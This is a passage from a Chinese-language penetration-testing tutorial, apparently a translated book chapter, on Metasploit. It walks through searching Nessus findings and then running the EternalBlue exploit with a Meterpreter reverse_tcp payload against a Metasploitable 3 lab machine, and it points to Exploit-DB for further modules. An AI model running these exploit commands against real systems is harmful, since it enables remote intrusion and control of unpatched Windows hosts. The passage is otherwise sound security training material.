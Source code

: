 图 11：显示 Nessus 发现的漏洞

现在，我们可以针对 Nessus 数据库导入搜索特定漏洞。例如，使用`vulns -S eternalblue`命令，我们可以搜索一个已知的漏洞，如下面的屏幕截图所示：

![](assets/a6c2db09-0642-4e0c-a906-8384ed90d0f7.png)

图 12：搜索 Nessus 扫描中的漏洞

请注意，输出显示了主机的 IP 地址以及与搜索查询相关的漏洞

# 使用 Metasploit 攻击远程目标

现在，我们已经从 Nessus 导入了数据，并且了解了如何在 Metasploit 框架中使用这些功能，现在让我们对 Metasploitable 3 虚拟机进行一次攻击。

我们将使用`ms17_010_eternalblue`漏洞。我们已确定 Metasploitable 3 虚拟机易受此攻击：

1.  使用`msfconsole`命令从终端窗口打开 Metasploit 框架。
2.  加载 Metasploit 框架后，使用`use exploit/windows/smb/ms17_010_eternalblue`命令并按*回车*。

3.  使用`set RHOSTS [IP]`命令定义目标（即 Metasploitable 3 虚拟机的 IP 地址）。
4.  我们将使用 MeterMeter 有效载荷，因为这将在本章后面使用。使用`set payload``windows/x64/meterpreter/reverse_tcp`命令定义有效负载。注意所有设置选项，如以下屏幕截图所示：

![](assets/70ffc25d-38ef-480b-98ec-50b1a3811acf.png)

图 13：定义的利用选项

5.  定义选项后，可以使用`exploit`命令运行漏洞利用，如以下屏幕截图所示：

![](assets/aab09e49-5d4c-484c-9f36-9e47efbc69ff.png)

图 14：漏洞攻击已成功完成

现在，您将建立到 Metasploitable 3 虚拟机的远程会话。

您将在本章稍后部分使用此会话。

# 查找模块

在对各种目标执行渗透测试时，可能会遇到 Metasploit 没有可使用的漏洞的情况。也许您还没有遇到过这种情况，但您希望保持 Metasploit 数据库的最新状态。在任何一种情况下，了解**在何处找到**模块以及**如何将**模块添加到 Metasploit 中都是一项有用的技能。有许多公共存储库托管可供下载的模块。这些网站将是您查找 Metasploit 模块的首选资源。

# 利用数据库

我们首先要看的是漏洞数据库（通常称为**漏洞数据库**。当我们与 Google dorks 合作时，您将识别上一章*（*[第三章](03.html)、*执行信息收集】*中的漏洞数据库。漏洞数据库可直接访问：[https://www.exploit-db.com](https://www.exploit-db.com) 。

该网站有一个名为**漏洞利用**、**的部分，您可以在其中找到由安全公司和个人发布的模块。该网站具有验证模块（V）、下载模块（D）和下载易受攻击应用程序（A）（如果适用）等功能。标题栏中将其描述为 D、A 和 V，如以下屏幕截图所示：**

 **![](assets/9854a591-396e-4a98-a2b7-6eef315dbed0.png)

图 15：显示漏洞列表的漏洞数据库

请注意，模块跨越多个平台和类型
